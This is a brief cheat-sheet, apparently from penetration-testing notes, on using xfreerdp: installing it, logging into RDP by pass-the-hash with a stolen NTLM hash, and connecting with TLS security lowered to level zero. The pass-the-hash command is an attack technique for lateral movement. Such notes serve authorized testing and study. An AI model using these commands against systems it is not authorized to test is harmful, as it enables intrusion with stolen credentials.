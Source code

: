 ### Install
```
apt install freerdp2-x11
```

### RDP with pass the hash
```
xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<rhost> +clipboard /dynamic-resolution
```

### Connect using old cyphers and long timeout
```
xfreerdp /v:<rhost> /tls-seclevel:0 /timeout:80000
```

